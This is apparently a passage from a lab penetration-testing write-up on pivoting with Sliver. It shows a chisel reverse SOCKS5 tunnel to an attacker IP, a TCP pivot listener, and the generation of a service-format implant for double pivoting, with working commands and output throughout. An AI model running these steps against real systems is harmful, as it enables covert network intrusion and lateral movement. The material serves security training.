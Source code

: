 ```bash

Flags:
======
  -h, --help           display help
  -t, --timeout int    command timeout in seconds (default: 60)
```

On the attacker machine, we run the chisel server first.

```bash
$ chisel server --reverse -p 8000 -v --socks5
2023/10/27 09:07:29 server: Reverse tunnelling enabled
2023/10/27 09:07:29 server: Fingerprint 1+LEI/g3cXWqORdvVL2tHW9Y+d7A65F/tsbMrMBrGew=
2023/10/27 09:07:29 server: Listening on http://0.0.0.0:8000
```

After we enter a session first on sliver,we run chisel client like the example provided in the help menu.

```bash
sliver (http-beacon) > chisel client 10.10.14.62:8000 R:socks

[*] Successfully executed chisel
[*] Got output:
received argstring: client 10.10.14.62:8000 R:socks
os.Args = [chisel.exe client 10.10.14.62:8000 R:socks]
Task started successfully.
```
We get a successful connection on our server side, the proxy connectin has been established ,and can run command from our attacker machine like in SOCKS5

## Double Pivoting

In case of double pivoting,  where SRV02 cannot directly communicate to us, SRV02 will communicate to SRV01 from which the chain of communication will be established. So we can establish a connection using `pivots` utility which supports `tcp` pivot listener(s) and `named-pipe` listener(s),

The `tcp` pivot listener requires a `bind` address to be specified, which in our case is the IP address of SRV01 (internal); by default, every `tcp` pivot listener will listen on port `9898`.

We can then start a pivot listener.

```bash
sliver (http-beacon) > pivots tcp --bind <IPofSRV01>

[*] Started tcp pivot listener <IPofSRV01>:9898 with id 1
```

With the pivot listener started and in place, we need to proceed with creating an implant; the implant, as mentioned, must be in a service format

```bash
sliver (http-beacon) > generate --format service -i <IPofSRV01>:9898 --skip-symbols -N psexec-pivot

[*] Generating new windows/amd64 implant binary
[!] Symbol obfuscation is disabled
[*] Build completed in 3s
[*] Implant saved to /home/maine/psexec-pivot.exe
```
